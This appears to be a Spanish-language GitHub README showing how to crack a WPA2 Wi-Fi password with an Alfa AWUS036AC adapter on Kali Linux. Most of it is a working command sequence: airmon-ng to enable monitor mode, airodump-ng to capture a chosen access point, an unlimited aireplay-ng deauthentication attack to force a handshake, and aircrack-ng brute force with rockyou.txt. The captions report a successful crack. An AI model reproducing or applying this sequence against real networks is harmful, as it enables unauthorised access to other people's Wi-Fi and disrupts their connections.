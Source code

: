 # Alfa AWUS036AC
    
   Cracking WPA2


### WiFi Passwords

  ![](Wifi-Hacking.png)
  
## Requisitos

Antes de nada, deberíamos de instalar los drivers necesarios de la antena ya que sin ellos no podremos usar el modo monitor.
En este caso he usado el diccionario Rockyou que viene preinstalado en kali linux.


  ![](Alfa-AWUS036AC.png)



## Comandos Utilizados:
    
   Ver versión del sistema:
        
       cat /etc/os-release
       
       uname -a
   
   Ver interfaces:
   
       iwconfig
   
   Matar procesos:
    
       sudo airmon-ng check kill

   Iniciar modo monitor:
   
       sudo airmon-ng start wlan0
       
   Verificar que modo está en uso:
   
       sudo airmon-ng
       iwconfig
   
   Obtener dirección MAC y el canal del AP:
   
       sudo airodump-ng wlan0
       sudo airodump-ng -w hack1 -c 2 --bssid 00:00:00:00:00:00 wlan0 
    
   2nd Window - deauth attack:
   
       sudo aireplay-ng --deauth 0 -a 00:00:00:00:00:00 wlan0
   
   Abrir Wireshark para analizar el archivo capturado:
   
       wireshark hack1-01.cap
   
   Filtro de mensajes usado en wireshark:
   
       eapol
   
   Stop modo monitor:
   
       airmon-ng stop wlan0

   Cambiar canal:
   
       sudo airmon-ng wlan0 channel X

   Fuerza bruta:
   
       sudo aircrack-ng capture1-01.cap -w /usr/share/wordlists/rockyou.txt


# How To

Listando versión del sistema

![](Imagen1.png)

Listando interfaces

![](Imagen2.png)

Matando procesos para evitar conflictos y activamos el modo monitor

![](Imagen3.png)

Ponemos a capturar las redes disponibles

![](Imagen4.png)

Una vez elegido nuestro objetivo empezamos a esnifar paquetes

![](Imagen5.png)
![](Imagen6.png)

A la espera de que se conecte un cliente para deautenticarlo y capturar el handshake

![](Imagen7.png)

Empezamos el ataque deauth para forzar el handshake

![](Imagen8.png)

Se produce el handshake….

![](Imagen9.png)

Comprobamos que efectivamente nos da los datos de la clave WPA

![](Imagen10.png)

Paramos la red wlan0 para deshabilitar el modo monitor

![](Imagen11.png)

Comenzamos el crackeo de la clave WPA de nuestra captura de wireshark usando el diccionario rockyou.txt

![](Imagen12.png)

Y como podemos ver nuestro ataque ha tenido éxito, la contraseña se encontraba en la posición 331 de la lista

![](Imagen13.png)



**Autor:** [AlbertoMiñan](https://github.com/albertominan)

